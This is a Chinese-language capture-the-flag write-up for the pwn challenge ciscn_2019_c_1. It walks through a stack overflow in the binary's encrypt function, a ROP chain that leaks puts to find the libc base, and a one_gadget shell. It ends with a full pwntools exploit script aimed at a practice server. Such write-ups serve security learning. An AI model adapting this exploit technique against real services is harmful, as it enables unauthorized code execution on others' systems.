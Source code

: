 # ciscn_2019_c_1 WriteUp

## 考点

- libc版本泄漏
- ROP攻击
- onegadget使用

## 解题过程

1. 使用`checksec`工具进行查看，程序为64位，NX保护

![checksec](images\checksec.png)

2. 使用ida工具反编译。

`main`:

![main](images\main.png)

`encrypt`：

![encrypt](images\encrypt.png)

​		可以看出程序功能为对输入字符串进行加密，而加密`encrypt`函数中的get存在栈溢出漏洞。

3. 由于在程序中找不到`system`函数和`/bin/sh`字符串，所以需要进行ROP攻击，泄漏其libc地址，使用onegadget工具直接获取shell。
4. 使用ROPgadget工具获取泄漏libc地址所需的指令地址(`pop rdi`; )，然后获取程序中put_got表和put_plt表地址，执行栈溢出payload构造如下

```python
payload = flat(b"\0", b"a"*(0x50-1), 0x0, pop_rdi, puts_got, puts_plt, encrypt)
```

​		注意最后需要加上encrypt函数使程序重新回到漏洞函数处。

5. 获取libc基址后，再次进入漏洞函数，然后执行onegadget指令。获取shell。

## 结果

**构造脚本如下**

`python`：

```python
from pwn import *

context(arch="amd64", log_level="debug")
# p = process("./ciscn_2019_c_1")
p = remote("node4.buuoj.cn", 26936)

one_gadget = 0x10a38c  # 0x4f322, 0x4f2c5, 0x10a38c
pop_rdi = 0x400c83
encrypt = 0x4009A0

elf = ELF('./ciscn_2019_c_1')
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

libc = ELF('./libc-2.27.so')
puts_offset = libc.symbols['puts']

payload = flat(b"\0", b"a"*(0x50-1), 0x0, pop_rdi, puts_got, puts_plt, encrypt)
# gdb.attach(p, 'b *0x4009DD')
p.sendlineafter(b"Input your choice!", b'1')
p.sendlineafter(b'Input your Plaintext to be encrypted', payload)
p.recvuntil("\nCiphertext\n\n")
puts_addr = p.recv(6)
puts_addr = u64(puts_addr.ljust(8, b'\x00'))
success(hex(puts_addr))
libc_addr = puts_addr - puts_offset
success(hex(libc_addr))

one_gadget = libc_addr + one_gadget

payload = flat(b"\0", b'a'*(0x50-1), 0x0, one_gadget)
p.sendlineafter(b"Input your Plaintext to be encrypted", payload)


p.interactive()
```

成功获取flag

![result](images\result.png)